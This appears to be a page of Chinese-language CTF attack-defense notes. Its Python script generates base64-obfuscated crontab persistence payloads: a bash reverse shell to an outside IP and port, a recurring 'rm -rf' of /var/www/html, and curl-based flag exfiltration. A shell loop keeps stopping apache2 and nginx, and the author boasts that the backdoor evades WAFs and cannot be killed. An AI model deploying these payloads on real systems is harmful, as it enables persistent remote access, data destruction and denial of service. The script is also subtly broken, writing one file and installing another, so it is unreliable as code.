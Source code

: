 ```python
#!/usr/bin/env python3
import base64


def crontab_reverse(reverse_ip, reverse_port):
    crontab_path = "/tmp"
    cmd = 'bash -i >& /dev/tcp/%s/%d 0>&1' % (reverse_ip, reverse_port)
    crontab_cmd = "* * * * * bash -c '%s'\n" % cmd
    encode_crontab_cmd = base64.b64encode(crontab_cmd)
    cmd = "/bin/echo " + encode_crontab_cmd + " | /usr/bin/base64 -d | /bin/cat >> " + crontab_path + "/tmp_rev.conf" + " ; " + "/usr/bin/crontab " + crontab_path + "/tmp.conf"
    return cmd


def crontab_rm(rm_paths='/var/www/html/'):
    crontab_path = "/tmp"
    cmd = '/bin/rm -rf %s' % rm_paths
    crontab_cmd = "* * * * * %s\n" % cmd
    encode_crontab_cmd = base64.b64encode(crontab_cmd)
    cmd = "/bin/echo " + encode_crontab_cmd + " | /usr/bin/base64 -d | /bin/cat >> " + crontab_path + "/tmp_rm.conf" + " ; " + "/usr/bin/crontab " + crontab_path + "/tmp.conf"
    return cmd


def crontab_flag_submit(flag_server, flag_port, flag_api, flag_token,
                        flag_host):
    crontab_path = '/tmp'
    cmd = '/usr/bin/curl "http://%s:%s/%s" -d "token=%s&flag=$(curl %s)" ' % (
        flag_server, flag_port, flag_api, flag_token, flag_host)
    crontab_cmd = "* * * * * %s\n" % cmd
    encode_crontab_cmd = base64.b64encode(crontab_cmd)
    cmd = "/bin/echo " + encode_crontab_cmd + " | /usr/bin/base64 -d | /bin/cat >> " + crontab_path + "/tmp_submit.conf" + " ; " + "/usr/bin/crontab " + crontab_path + "/tmp.conf"
    return cmd


#  cmd = crontab_flag_submit(flag_server='0.0.0.0',
                          #  flag_port='8888',
                          #  flag_api='submit',
                          #  flag_token='bcbe3365e6ac95ea2c0343a2395834dd',
                          #  flag_host='http://192.168.100.1/Getkey')
#  print(cmd)

cmd = crontab_reverse('202.204.62.222',6666)
print(cmd)
```
&emsp;&emsp;这个应该算是最牛逼的马了,waf基本挡不住,杀也杀不死.  


- 疯狂日apache2和nigix:

```sh
#!/usr/bin/env sh
while [[ 1 ]]
do
    service apache2 stop
    service nginx stop
done &
```
